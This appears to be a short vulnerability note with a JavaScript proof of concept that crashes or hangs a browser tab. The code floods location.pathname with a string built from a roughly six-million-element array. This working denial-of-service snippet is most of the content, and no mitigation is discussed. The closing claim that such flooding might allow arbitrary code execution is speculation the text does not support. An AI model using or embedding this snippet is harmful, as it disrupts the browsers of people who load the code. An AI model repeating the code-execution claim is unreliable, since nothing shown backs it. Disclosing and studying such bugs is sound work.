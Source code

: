 # location.pathname DoS via flood

location.pathname is vulnerable to a DoS via flooding it with an incredibly large string.

PoC (@iHateRa1n):

```javascript
var k=new Uint32Array(1048576*6);
k=Array.from(k);
k=k.toString();
location.pathname=k;
```

It is a simple PoC, but illustrates that a lot of location's variables can be utilized for a DoS, crash, or possibly even A.C.E (arbitrary code exec)
